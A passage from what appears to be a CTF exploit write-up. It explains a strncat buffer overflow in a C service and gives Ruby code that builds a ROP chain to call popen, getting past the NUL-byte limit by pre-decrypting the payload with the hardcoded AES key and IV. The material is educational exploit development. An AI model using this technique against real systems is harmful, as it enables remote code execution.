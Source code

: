 The core issue is using `strncat` multiple times with the same buffer size, to
concatenate multiple arguments:

```c
  strncat(buffer + strlen(buffer), body->args[1].value.s.value, REGISTER_BUFFER_SIZE);
  strncat(buffer + strlen(buffer), body->args[2].value.s.value, REGISTER_BUFFER_SIZE);
  strncat(buffer + strlen(buffer), body->args[3].value.s.value, REGISTER_BUFFER_SIZE);
  strncat(buffer + strlen(buffer), body->args[4].value.s.value, REGISTER_BUFFER_SIZE);
  strncat(buffer + strlen(buffer), body->args[5].value.s.value, REGISTER_BUFFER_SIZE);
  strncat(buffer + strlen(buffer), uuid, REGISTER_BUFFER_SIZE);
```

The problem is that `strncat` terminates on a NUL byte, and we want to return
to an address to call `popen`! Luckily, immediately after calling the `strncat`
functions, the message is encrypted:

```c
  size_t length = encrypt((uint8_t*)buffer, strlen(buffer) + 1);
  send_simple_binary_response(s, 0, (uint8_t*)buffer, length);
```

The key/IV for the encryption algorithm are hardcoded into the binary, which
means we can predict the output of the encrypted block.

To write an exploit, we build a ROP stack containing all the NUL bytes we want:

```ruby
  puts "* Generating a ROP Chain..."
  ROP = [
    POP_EDI_RET,
    CMD_ADDRESS,
    POP_ESI_POP_R15_RET,
    R_ADDRESS,
    rand(0..0xffffffffffffffff),
    POPEN_ADDRESS,
    rand(0..0xffffffffffffffff),
  ].pack('QQQQQQQ')
  puts " => #{ ROP.unpack('H*') }"
  puts
```

Then we *decrypt* the payload, which means it'll *encrypt* to our ROP string:

```ruby
  puts "* Encrypting the ROP chain with padding..."
  encrypted_payload = get_encrypted_string(RETURN_OFFSET, rop)
  puts " => #{ encrypted_payload.unpack('H*') }"
```

The `get_encrypted_string` function is where we *decrypt* the payload:

```ruby
  def get_encrypted_string(offset, data)
    padding = 0x41.chr * offset

    cipher = OpenSSL::Cipher.new('AES-128-CBC')
    cipher.decrypt
    cipher.padding = 0
    cipher.key = KEY
    cipher.iv = IV

    str = padding + data
    while(str.length % 16 != 0)
      str.concat("\0")
    end

    return cipher.update(str) + cipher.final()
  end
```
